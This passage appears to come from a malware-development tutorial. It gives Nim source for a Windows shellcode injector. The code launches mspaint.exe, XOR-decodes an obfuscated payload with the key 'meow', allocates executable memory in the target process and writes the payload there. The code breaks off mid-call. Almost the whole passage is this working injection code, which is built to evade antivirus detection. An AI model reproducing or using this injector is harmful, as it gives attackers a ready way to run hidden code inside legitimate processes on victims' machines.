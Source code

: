 So, the full final source code is looks like this:    

```nim
import osproc
import winim

proc xorEnc(data: seq[byte], key: seq[byte]): seq[byte] =
    var enc: seq[byte]
    for i in 0 ..< len(data):
        enc.add(data[i] xor key[i mod len(key)])
    result = enc

let process = startProcess("mspaint.exe")
echo "started  process: ", process.processID

let ph = winim.OpenProcess(
    PROCESS_ALL_ACCESS,
    false,
    cast[DWORD](process.processID)
)

let mykey: seq[byte] = @[0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77]
let encrypted: seq[byte] = @[
0x91, 0x2D, 0xEE, 0x93, 0x9D, 0x9A, 0x90, 
0x88, 0x85, 0xB5, 0x6F, 0x77, 0x6D, 0x24, 0x3E, 0x36, 0x3D, 0x37, 0x3E, 
0x21, 0x25, 0x54, 0xBD, 0x12, 0x25, 0xEE, 0x3D, 0x17, 0x53, 0x2D, 0xE4, 
0x25, 0x75, 0x5B, 0x27, 0xFC, 0x3F, 0x45, 0x51, 0x3F, 0xE6, 0x17, 0x3F, 
0x49, 0x25, 0x6A, 0xD8, 0x3D, 0x27, 0x28, 0x5E, 0xBE, 0x25, 0x54, 0xAF, 
0xDB, 0x51, 0x04, 0x13, 0x75, 0x41, 0x45, 0x2E, 0xB6, 0xA4, 0x68, 0x2E, 
0x76, 0xAC, 0x87, 0x82, 0x25, 0x2C, 0x34, 0x51, 0x3F, 0xE6, 0x37, 0x4F, 
0x49, 0xE6, 0x27, 0x53, 0x3F, 0x6C, 0xB5, 0x51, 0xFC, 0xED, 0xED, 0x6F, 
0x77, 0x6D, 0x2D, 0xEA, 0xB7, 0x19, 0x0A, 0x27, 0x76, 0xBD, 0x35, 0x51, 
0xFC, 0x25, 0x7D, 0x51, 0x33, 0xE6, 0x25, 0x4F, 0x3E, 0x6C, 0xB5, 0x8C, 
0x2B, 0x25, 0x9A, 0xA6, 0x49, 0x2C, 0xEE, 0x5B, 0xFF, 0x25, 0x64, 0xB9, 
0x3A, 0x5C, 0xAC, 0x27, 0x46, 0xAD, 0xC9, 0x2E, 0xB6, 0xA4, 0x68, 0x2E, 
0x76, 0xAC, 0x5D, 0x8F, 0x02, 0x9C, 0x5B, 0x23, 0x74, 0x21, 0x41, 0x67, 
0x32, 0x54, 0xB4, 0x1A, 0xA1, 0x35, 0x5B, 0x2B, 0xFC, 0x2D, 0x41, 0x26, 
0x76, 0xBD, 0x03, 0x51, 0x36, 0xE6, 0x69, 0x27, 0x49, 0x29, 0xEE, 0x2F, 
0x6B, 0x24, 0x64, 0xBF, 0x49, 0x2C, 0xEE, 0x6B, 0xFF, 0x25, 0x64, 0xBF, 
0x36, 0x35, 0x24, 0x37, 0x29, 0x34, 0x3F, 0x2E, 0x2F, 0x2C, 0x3C, 0x2E, 
0x2D, 0x25, 0xE6, 0x83, 0x57, 0x2C, 0x37, 0x90, 0x97, 0x35, 0x24, 0x36, 
0x2D, 0x53, 0x2D, 0xE4, 0x65, 0x84, 0x2C, 0x90, 0x88, 0x92, 0x38, 0x26, 
0xB0, 0xAC, 0x65, 0x6F, 0x77, 0x6D, 0x5B, 0x27, 0xFA, 0xF8, 0x9B, 0x6F, 
0x77, 0x6D, 0x5B, 0x23, 0xFA, 0xE8, 0x6C, 0x6E, 0x77, 0x6D, 0x2D, 0x5E, 
0xBE, 0x2C, 0xDF, 0x2A, 0xF4, 0x3B, 0x62, 0x90, 0xA2, 0x25, 0x54, 0xA6, 
0x36, 0xD7, 0x95, 0xDA, 0xD5, 0x3B, 0x9A, 0xBA, 0x1A, 0x08, 0x0A, 0x18, 
0x5A, 0x00, 0x00, 0x00, 0x00, 0x4C, 0x65, 0x0C, 0x16, 0x19, 0x65]

when isMainModule:
    let payload = xorEnc(encrypted, mykey)
    let mem = VirtualAllocEx(
        ph,
        NULL,
        cast[SIZE_T](encrypted.len),
        MEM_COMMIT,
        PAGE_EXECUTE_READ_WRITE
    )
    var btw: SIZE_T
    let wp = WriteProcessMemory(
        ph,
        mem,
        unsafeAddr payload[0],
        cast[SIZE_T](encrypted.len),
        addr btw
```